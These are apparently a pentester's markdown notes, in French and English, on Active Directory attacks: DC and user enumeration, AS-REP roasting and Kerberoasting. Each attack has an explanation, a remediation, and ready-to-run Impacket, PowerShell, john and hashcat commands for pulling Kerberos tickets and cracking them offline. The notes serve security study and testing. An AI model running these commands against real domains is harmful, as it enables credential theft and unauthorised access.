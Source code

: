 # Enumeration
## DC Enumeration
***Find the Domain Controllers of a domain:***   
`PS> nltest /dclist:<domain>`   
## User Enumeration 
***User enumeration through Kerberos port 88:***  
`./kerbrute_linux_amd64 userenum --dc 10.10.11.152 -d <domain> /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`
  
 ***Browse through Active Directory:***  
 `C:>rundll32 dsquery,OpenQueryWindow`  
     
# AS_REP Roasting   
  
https://beta.hackndo.com/kerberos-asrep-roasting/
  
  
## Outils :  
·       Rubeus
·       Impacket : GetNPUsers.py
  
## Explication :  
Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification préalable ne soit pas demandée pour certains comptes, permettant à un attaquant d’abuser de cette configuration.
Lorsque nous avons parlé du fonctionnement de Kerberos, il a été mis en évidence que dans le premier échange (KRB_AS_REQ - KRB_AS_REP), le client doit d’abord s’authentifier auprès du KDC avant d’obtenir un TGT. Une partie de la réponse du KDC étant chiffrée avec le secret du compte client (la clé de session), il est important que cette information ne soit pas accessible sans authentification. Dans le cas échéant n’importe qui pourrait demander un TGT pour un compte donné, et tenter de décrypter la partie chiffrée de la réponse KRB_AS_REP pour retrouver le mot de passe de l’utilisateur ciblé.
  

TODO IMG


## Remédiation :  
Ne pas activer “Do not require Kerberos preauthentication”
  
  
À partir de l’adresse <https://beta.hackndo.com/kerberos-asrep-roasting/>
  
## Exécution  
***Récupération des TGT pour les utilisateurs pour lesquels la preauth Kerberos est désactivée :***  
<br>
`PS > python C:\GetNPUsers.py spookysec.local/ -no-pass -usersfile .\userlist2.txt -dc-ip <dc_ip> -outputfile .\ASREP_Roastable_users.txt`
  
***Puis cracking :***  
`PS> john --wordlist=$wordlist ASREP_Roastable_users.txt`
  
(ou : `PS >  .\hashcat.exe --force -m 18200 -a 0 -o "../hash_res.txt" "../svc-admin.txt"`)
  

# Kerberoasting  

## Outils :  
- ListusersSPNs.ps1  
- Impacket GetUserSPNs.py  
  
## Explications :  
Les comptes de service ont un SPN (Service Principal Name), exemple : www/WEB-SERVER-01.adsec.local  
SPN = combinaison du service + de la machine hébergeant le service  
Comptes de service ont généralement un mdp robuste (20-30 caractères)  
Il est possible d'effectuer des demandes de TGS en indiquant des SPN arbitraires  
Un utilisateur de l’AD peut demander un TGS pour n’importe quel service auprès du KDC  
-> Obtention d'un TGS chiffré avec le mdp du compte possédant le SPN  
-> Bruteforce -> si le TGS est déchiffrable, le mot de passe est trouvé  
  
## Remédiation :  
Pas de SPN sur les comptes utilisateurs (ces derniers ont souvent des comptes à mot de passe suivant la politique AD pouvant être bruteforcés), ou alors si VRAIMENT nécessaire, utiliser la fonctionnalité “Managed Service Accounts” (MSA) de Microsoft qui permet de faire en sorte que le mot de passe du compte soit robuste et changé régulièrement et automatiquement  
  
## Exécution  
`ListusersSPNs.ps1`, listing des utilisateurs possédant un SPN :  

`$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")`  
`$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"`     
`$results = $search.Findall()`    
`foreach($result in $results)`    
 &nbsp;&nbsp;&nbsp;`{`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$userEntry = $result.GetDirectoryEntry()`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host "SPNs"`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`foreach($SPN in $userEntry.servicePrincipalName)`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`{`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$SPN`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`}`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host ""`  
 &nbsp;&nbsp;&nbsp;`}`      
       
  
À partir de l’adresse <https://beta.hackndo.com/kerberoasting/>
  
  
***Récupération des TGS :***  
  
`
C:\Users\Leperche\Desktop\no_scan\impacket-master\examples>python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<domain_username>
`
  
***Cracking des TGS :***    
  
`
john --format=krb5tgs --wordlist=/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt TGS_to_crack.txt
`
  
***Affichage des TGS crackés :***  
  
`cat ~/.john/john.pot`
  

